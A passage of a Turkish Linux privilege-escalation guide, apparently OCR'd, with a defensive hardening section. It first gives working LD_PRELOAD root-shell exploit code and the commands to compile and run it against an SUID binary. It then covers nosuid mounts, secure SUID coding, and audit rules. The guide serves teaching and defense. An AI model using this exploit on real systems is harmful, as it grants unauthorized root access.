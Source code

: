     // Bu fonksiyon, kütüphane yüklendiğinde otomatik olarak çalışır.
    void _init() {
        unsetenv("LD_PRELOAD"); // Sonsuz döngüyü engelle
        setresuid(0, 0, 0);       // uid, euid, suid'yi root yap
        system("/bin/sh -p");     // root shell'i başlat
    }
    ```
2.  **Derleme:**
    ```bash
    gcc -shared -fPIC -o /tmp/exploit.so /tmp/exploit.c
    ```
3.  **Sömürü:**
    ```bash
    LD_PRELOAD=/tmp/exploit.so /path/to/suid_program
    ```

---

## Bölüm 4: Savunma ve Önleme (Blue & Purple Team Perspektifi)

### 4.1. Proaktif Hardening Teknikleri

*   **En Az Yetki Prensibi:** Gerekmedikçe **ASLA** bir dosyaya SUID biti vermeyin. Bir geliştirici bunu istiyorsa, alternatif bir çözüm (örn: `sudo` kuralları, polkit) sunun.
*   **`nosuid` Mount Seçeneği:** `/etc/fstab` dosyasında, kullanıcıların yazma erişimi olan (`/home`, `/tmp`, `/var/tmp`, `/dev/shm`) tüm partisyonları `nosuid` seçeneğiyle bağlayın. Bu, bir saldırganın bu dizinlere yüklediği SUID'li bir binary'nin çalışmasını engeller.
    ```
    /dev/sda3   /home   ext4   defaults,nosuid   1 2
    ```
*   **Güvenli Kodlama:** SUID'li bir program yazmak zorundaysanız:
    *   Tüm harici komutları mutlak yollarıyla (`/bin/ls`) çağırın.
    *   `PATH`, `LD_PRELOAD`, `IFS` gibi ortam değişkenlerine güvenmeyin, programın başında bunları temizleyin.
    *   Mümkün olan en kısa sürede `setuid(getuid())` çağrısı ile yetkileri düşürün.

### 4.2. Tespit ve İzleme (Auditing)

*   **Periyodik Taramalar:** Yukarıda belirtilen `find` komutlarını bir cron job'a ekleyerek sistemdeki SUID'li dosyaların listesini düzenli olarak kontrol edin ve beklenmedik değişiklikleri tespit edin.
*   **Linux `auditd`:** `auditd` servisi ile SUID'li dosyaların çalıştırılmasını veya dosya izinlerinin değiştirilmesini loglayabilirsiniz.
    ```bash
    # SUID/SGID bitlerinin ayarlanmasını izle
    auditctl -a always,exit -F arch=b64 -S chmod -S fchmod -F a0&07000
    ```

---

